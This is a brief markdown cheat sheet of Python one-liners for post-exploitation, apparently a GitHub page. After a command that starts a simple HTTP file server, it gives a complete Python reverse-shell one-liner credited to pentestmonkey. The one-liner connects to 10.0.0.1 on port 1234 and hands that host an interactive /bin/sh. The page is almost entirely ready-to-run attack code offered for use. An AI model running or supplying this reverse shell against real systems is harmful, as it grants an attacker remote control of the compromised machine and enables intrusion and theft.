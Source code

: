 # Python Command and Scripts for Post Exploitation

One liners
-----------

**Start a web server that serves the local files on port 8000, single threaded**
```python
python -m SimpleHTTPServer 8000
```

**Python reverse shell from [pentestmonkey.net](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)**

```python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'```